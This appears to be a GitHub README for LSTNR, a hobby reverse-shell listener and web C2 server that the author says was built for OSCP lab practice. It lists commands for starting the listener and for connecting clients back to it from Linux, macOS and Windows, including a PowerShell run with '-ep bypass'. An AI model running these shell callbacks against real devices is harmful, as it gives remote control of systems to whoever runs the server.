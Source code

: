 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

OR

Remote devices can be managed from the LSTNR webpage.

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE: CLI
1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

<img width="509" alt="Screenshot 2024-12-30 at 8 17 42 PM" src="https://github.com/user-attachments/assets/375e9059-e448-412c-8677-cac252d1da63" />

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`


# USAGE: Web C2 server 
1. Start the server
    - `python3 lstnr-web.py`

2. Open link in web browser
    - `firefox 127.0.0.1:8000`

<img width="1162" alt="Screenshot 2024-12-21 at 1 03 20 AM" src="https://github.com/user-attachments/assets/9145dc13-14d0-440c-9d00-9a60f547bbc5" />
